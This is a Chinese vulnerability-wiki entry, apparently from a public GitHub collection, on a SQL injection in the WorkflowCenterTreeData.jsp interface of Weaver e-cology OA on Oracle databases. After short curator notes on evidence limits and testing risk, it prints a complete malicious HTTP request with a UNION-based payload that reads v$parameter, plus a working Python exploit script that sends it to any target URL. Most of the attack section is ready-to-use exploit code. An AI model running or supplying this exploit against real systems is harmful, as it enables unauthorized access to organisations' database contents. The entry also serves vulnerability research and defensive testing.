

# 泛微e-cology WorkflowCenterTreeData SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology；WorkflowCenterTreeData SQL注入
- 版本、配置及部署条件：Oracle部署；无版本补丁；2019-10-10通告声称
- 认证与权限前提：正文任意攻击者；样本带cookie未解释
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与多个同接口短篇重复，新增参考知乎与完整Python请求，可作为简报主文但不能替代AST分析
- version字段放数据库条件应拆配置；HTTP误标sql、重复Upgrade头
- 脚本仅打印响应未给确认标准；原标题泛型微生态为转译噪声

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

2019年10月10日CNVD发布了泛微e-cology OA系统存在SQL注入漏洞。该漏洞是由于OA系统的WorkflowCenterTreeData接口中涉及Oracle数据库的SQL语句缺乏安全检查措施所导致的，任意攻击者都可借SQL语句拼接时机注入恶意payload，造成SQL注入攻击。

### 漏洞影响

```
使用Oracle数据库的泛微服务
```

### 漏洞复现

泛型微生态OA系统的WorkflowCenterTreeData接口在使用Oracle数据库时，由于内置sql语句分解不严密，导致其存在的sql注入漏洞




漏洞请求包

```http
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionId=abc49y8JvMcoqhSkCv02w; testBanCookie=test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Upgrade-Insecure-Requests: 1

formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
```

> 请求长度说明：原资料 Content-Length 为 2236；保留原始标头；其数值未据实际请求体重新计算或验证。

### 漏洞POC

```python
import requests
import sys

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Content-Type': 'application/x-www-form-urlencoded'
}

def exploit(url):
    target=url+'/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333'
    payload="formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1"
    res=requests.post(url=target,data=payload,headers=headers,timeout=10)
    res.encoding=res.apparent_encoding
    print(res.text)

if __name__ == '__main__':
    url=sys.argv[1]
    exploit(url)
```

### 参考文章

[泛微OA WorkflowCenterTreeData接口注入复现（仅限oracle数据库）](https://zhuanlan.zhihu.com/p/86082614)


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
